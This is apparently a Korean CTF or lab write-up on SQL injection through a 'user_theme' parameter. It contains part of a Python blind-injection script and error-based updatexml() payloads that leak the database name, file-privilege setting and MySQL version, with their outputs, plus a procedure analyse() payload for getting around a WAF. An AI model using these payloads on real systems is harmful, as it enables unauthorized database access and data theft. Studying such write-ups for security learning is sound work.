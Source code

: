 ```python
        # 조건: "Theme not found"가 없으면 성공 (참)
        if "Theme not found" not in res.text:
            db_name += c
            print(f"✅ FOUND: {c}")
            found = True
            break
        else:
            print("❌")

    if not found:
        print(f"[✓] DB name 추출 종료: {db_name}")
        break

print(f"\n🎯 최종 추출된 DB 이름: {db_name}")
```
### ✅ Error-Based SQLi 로 접근

전체적인 흐름과 쿼리 응답 패턴을 분석했을 때,  
`updatexml()` 함수 등을 통한 **에러 기반 SQLi(Error-Based SQL Injection)**가 가능할 것으로 판단했다.  
특히 `XPATH syntax error` 메시지를 통해 조건의 성공 여부를 유추할 수 있었기 때문에,  
이후의 모든 페이로드는 **에러 메시지에 포함된 내용으로 참/거짓을 판별**하도록 구성했다.

- DB 확인: 
    ```
    dark'AND+updatexml(1,concat(0x7e,database(),0x7e),1)AND'1'='1
    ```
    >  '~spec4~'

- MySQL 설정 확인:

    ```
    dark'AND+updatexml(1,concat(0x7e,@@secure_file_priv,0x7e),1)AND'1'='1
    ```
    >   → '~/var/lib/mysql-files/'

- 버전 정보:

    ```
    dark'AND+updatexml(1,concat(0x7e,@@version,0x7e),1)AND'1'='1
    ```
    >→ '5.7.30-0ubuntu0.16.04.1-log'

 - 처음 보는 오류 발견 
    ```
    user_theme=dark'%09procedure%09analyse()%3b%00
    ```
    > {"error":"Invalid theme settings"}

---
### 패치 
Union Select 구문이 WAF 또는 필터링에 의해 차단되는 상황이었기 때문에,procedure analyse()를 활용한 정보 추출 방식으로 우회할 수밖에 없다고 판단했다.
